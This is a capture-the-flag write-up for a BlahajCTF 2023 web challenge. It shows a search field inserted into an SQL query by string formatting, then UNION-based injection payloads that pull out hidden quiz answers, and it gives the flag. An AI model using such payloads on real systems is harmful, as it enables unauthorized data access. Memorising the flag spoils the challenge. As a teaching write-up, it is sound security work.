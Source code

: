 ```yaml
---
title: Secure Quiz Label Index
date: 2023-12-05
tags:
- web
- sqli
- author-hartmannsyg
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}

> Halogen has just released all the questions to the next CyberSecurity test. Blahaj wants to score full marks, and believes the answers and bonus questions are listed somewhere on the site. Help Blahaj get the answers and score full marks on this quiz!

From just a little testing (or just reading the source code provided), we see that our "search" gets injected into a SQL query:
```py
f"SELECT ID, question, setter FROM quizzes WHERE question LIKE '%{query}%' AND visible = 1"
```

We can escape the single quotes `'`, so we can use a SQL UNION injection (where we UNION the SQL query with another query to query what we want) as such:

payload: `' UNION SELECT ID, question, answer from quizzes`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes %' AND visible = 1
```

However this is not a valid SQL query, so I appended yet another query to make it valid:

payload: `' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' AND visible = 1
```

and we get the answer to the "What is the flag?" question to be `blahaj{full_m4rk5_guar4nte3d!!}`